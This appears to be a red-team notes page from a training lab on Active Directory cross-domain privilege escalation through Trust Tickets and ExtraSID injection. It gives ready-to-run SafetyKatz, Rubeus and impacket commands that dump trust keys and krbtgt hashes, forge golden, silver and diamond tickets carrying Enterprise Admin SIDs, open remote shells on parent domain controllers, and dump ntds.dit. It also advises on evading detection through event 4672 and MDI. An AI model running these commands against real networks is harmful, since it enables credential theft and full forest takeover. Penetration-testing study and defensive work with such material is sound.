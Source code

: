 # Cross-Domain

In Active Directory environments, trust relationships govern access across domain or forest boundaries. Within a single forest, **domains are linked by default through implicit two-way trust**.

A key attribute in these trust-based escalations is `sIDHistory`, which stores the old Security Identifier (SID) when a user account is migrated between domains. While its intended use is to preserve access to legacy resources, it creates an opportunity for privilege escalation under specific conditions, particularly through **Trust Tickets** and **ExtraSID injection**.

## Trust Tickets

**Trust Tickets** exploit the Kerberos trust mechanism between domains. When a user from a child domain requests access to services in a parent domain, a **cross-realm TGT** is issued by the child’s DC. This TGT is **encrypted with a shared trust key** and presented to the parent’s DC, which validates it using the same key. By default, this key—functionally similar to a machine account password—is the NTLM hash of the trust object and rotates every 30 days.

<figure><img src="../../../.gitbook/assets/trust_keys.png" alt=""><figcaption></figcaption></figure>

If this NTLM hash is obtained (typically RC4-based), it becomes possible to **forge a cross-realm TGT**. The forged ticket can then include privileged SIDs such as **Enterprise Admins** (`-519`) in the `sIDHistory` field, effectively tricking the parent DC into recognizing the ticket as one issued to a highly privileged user. This enables unauthorized access to services and systems in the parent domain.

{% tabs %}
{% tab title="1. Trust Key & Parent SID" %}
Extract the trust key as a DA:

{% code overflow="wrap" %}
```powershell
.\SafetyKatz.exe "lsadump::trust /patch" "exit"
.\SafetyKatz.exe "lsadump::lsa /patch" "exit"
.\SafetyKatz.exe "lsadump::dcsync /user:dcorp\mcorp$" "exit"
```
{% endcode %}

Get the parent domain SID:

```powershell
Get-DomainSID -Domain moneycorp.local
```
{% endtab %}

{% tab title="2.  Cross-Realm TGT" %}
Forge the inter-realm TGT:

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe silver /service:krbtgt/<child-domain-FQDN> /rc4:<trust-key> /sid:<child-domain-SID> /sids:<parent-domain-SID>-519 /ldap /user:Administrator /nowrap
```
{% endcode %}
{% endtab %}

{% tab title="3. TGS" %}
Request and inject the TGS:

{% code overflow="wrap" %}
```powershell
# Request and inject the TGS
.\Rubeus.exe asktgs /service:http/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:doI...hbA==
```
{% endcode %}

Access the parent's domain resource:

```powershell
# Access the DC of the parent DC
winrs -r:mcorp-dc.moneycorp.local cmd
```
{% endtab %}
{% endtabs %}

From Linux hosts:

{% tabs %}
{% tab title="1. TGT" %}
Execute the Golden Ticket attack including the target SIDs using `ticketer`:

{% code overflow="wrap" %}
```bash
# Get TGT for the target (trust key RC4 hash)
impacket-ticketer -nthash 12b792603f994d46906474202b20b5d4 -domain-sid S-1-5-21-3056178012-3972705859-491075245 -domain internal.zsm.local -extra-sid S-1-5-21-2734290894-461713716-141835440-519 -spn krbtgt/zsm.local x7331

# Cache the ticket
export KRB5CCNAME=./x7331.ccache
```
{% endcode %}
{% endtab %}

{% tab title="2. ST" %}
Leverage the forged TGT to request a ST and perform a DCSync attack:

{% code overflow="wrap" %}
```bash
# Get ST using the forged TGT
$ impacket-getST -k -no-pass -debug -spn CIFS/ZPH-SVRDC01.zsm.local zsm.local/tgt@zsm.local -dc-ip 192.168.210.10

# Export ticket to session
$ export KRB5CCNAME=tgt@zsm.local

# Dump ntds.dit using the ST
impacket-secretsdump -k -no-pass -dc-ip 192.168.210.10 tgt@ZPH-SVRDC01.zsm.local -target-ip 192.168.210.10
```
{% endcode %}
{% endtab %}
{% endtabs %}

## ExtraSID Injection

An attacker with control over a child domain can abuse the `krbtgt` secret to forge Kerberos tickets that impersonate privileged users in a trusted parent domain. This approach builds upon the logic of cross-domain trust abuse but targets a different step in the Kerberos authentication flow, offering a **more straightforward execution path** **with a bigger impact** as the attack can access any resource on the parent domain's DC.

This method uses the **RC4 hash of the child domain's** `krbtgt` **account** to forge a standard **Golden Ticket**. The critical twist is in **preloading the ticket with high-privilege SIDs from the parent domain**—typically by setting the `sIDHistory` to include the SID of the Enterprise Admins group (`-519`). When this forged TGT is presented to the child DC to request access to a parent domain service, **the resulting inter-realm TGT is generated with the maliciously inserted `sIDHistory` intact**. The parent domain then validates and honors the ticket, effectively granting EA privileges to an attacker-controlled principal.

<figure><img src="../../../.gitbook/assets/krbtgt_hash (1).png" alt=""><figcaption></figcaption></figure>

This approach is particularly advantageous because it targets the step **before** the inter-realm TGT is created. It avoids the need to compromise the trust account itself, relying only on the child domain’s `krbtgt` secret—often easier to obtain. The result is elevated access to the parent domain, including the ability to authenticate to its DCs, which normally disallows logons from users in child domains.

{% hint style="warning" %}
**OPSEC**: The Diamond ticket is the most OPSEC-friendly option.
{% endhint %}

{% tabs %}
{% tab title="GT as Administrator" %}
Execute the Golden Ticket attack including the target SIDs using Rubeus or SafetyKatz:

{% code overflow="wrap" %}
```powershell
# Execute the GT attack including the target SIDs using SafetyKatz
.\SafetyKatz.exe "kerberos::golden /user:administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Execute the GT attack including the target SIDs using Rubeus
.\Rubeus.exe evasive-golden /user:administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt
```
{% endcode %}

Access the parent domain's DC:

```powershell
# Access the parent domain's DC
winrs -r:mcorp-dc cmd
```
{% endtab %}

{% tab title="GT as DC$" %}
However, when an Administrator from the child domain logs in interactively to the forest root DC, it generates alerts (event ID 4672), alerting on **high-privilege logons from unexpected accounts**. Instead of impersonating an administrator directly, the forged ticket can represent the **machine account of the child domain’s DC**, combined with SIDs for DCs (`-516`) and Enterprise DCs (`S-1-5-9`). This simulates **legitimate replication behavior between domains and bypasses interactive logon restrictions**. Because it mimics legitimate DC-to-DC replication, this variant often evades detections—even those from advanced defenders like MDI.

{% code overflow="wrap" %}
```powershell
# The GT attack using the machine account using SafetyKatz
.\SafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# The GT attack using the machine account using Rubeus
.\Rubeus.exe golden /aes256:<krbtgt-aes256key> /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /dc:dcorp-dc.dollarcorp.moneycorp.local /ptt

# Peform a DCSync to extract the forest root's krbtgt credentials
.\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```
{% endcode %}
{% endtab %}

{% tab title="Diamond Ticket" %}
For improved OPSEC, [Diamond Tickets](../persistence/diamond-ticket.md) can be used in place of traditional Golden Tickets. Diamond Tickets **resemble legitimate Kerberos requests and include a corresponding TGT request**, making them less suspicious.

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe diamond /krbkey:<krbtgt-aes256key> /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /tickeruserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /createnetonly:c:\windows\system32\cmd.exe /show /ptt
```
{% endcode %}
{% endtab %}
{% endtabs %}

From Linux hosts:

{% tabs %}
{% tab title="1. TGT" %}
Execute the Golden Ticket attack including the target SIDs using `ticketer`:

{% code overflow="wrap" %}
```bash
# Get TGT for the target (krbtgt hash of the child domain)
impacket-ticketer -nthash 0540fe51ddd618f42a66ef059ac36441 -domain-sid S-1-5-21-3056178012-3972705859-491075245 -domain internal.zsm.local -extra-sid S-1-5-21-2734290894-461713716-141835440-519 -spn krbtgt/zsm.local x7331

# Cache the ticket
export KRB5CCNAME=./x7331.ccache
```
{% endcode %}
{% endtab %}

{% tab title="2. ST" %}
Leverage the forged TGT to request a ST and perform a DCSync attack:

{% code overflow="wrap" %}
```bash
# Get ST using the forged TGT
$ impacket-getST -k -no-pass -debug -spn CIFS/ZPH-SVRDC01.zsm.local zsm.local/tgt@zsm.local -dc-ip 192.168.210.10

# Export ticket to session
$ export KRB5CCNAME=tgt@zsm.local

# Dump ntds.dit using the ST
impacket-secretsdump -k -no-pass -dc-ip 192.168.210.10 tgt@ZPH-SVRDC01.zsm.local -target-ip 192.168.210.10
```
{% endcode %}
{% endtab %}
{% endtabs %}
